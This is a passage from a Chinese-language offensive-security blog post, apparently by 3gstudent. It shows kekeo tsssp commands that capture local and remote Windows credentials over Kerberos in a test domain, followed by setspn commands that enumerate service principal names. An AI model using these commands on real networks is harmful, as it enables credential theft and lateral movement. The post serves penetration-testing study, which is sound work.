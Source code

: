 ### 2.域网络

身份验证方式为Kerberos

#### (1)抓取本机口令

建立服务器的kekeo命令如下(普通用户权限)：

```
tsssp::server
```

连接服务器的kekeo命令如下(普通用户权限)：

```
tsssp::client /target:anyword
```

**注：**

抓取本机口令时，`target`参数可以设置为任意字符

#### (2)抓取远程主机口令

建立服务器的kekeo命令如下(System权限)：

```
tsssp::server
```

连接服务器的kekeo命令如下(普通用户权限)：

```
tsssp::client /target:TERMSRV/COMPUTER01.test.com /pipe:\\COMPUTER01.test.com\pipe\kekeo_tsssp_endpoint
```

结果如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2020-8-6/3-2.PNG)

这里使用的参数为域内计算机帐户对应的SPN

查看当前域内的所有SPN可以使用setspn命令：

```
setspn.exe -q */*
```

查看test域内的所有SPN：

```
setspn.exe -T test -q */*
```

## 0x04 利用分析
---

### 1.优点
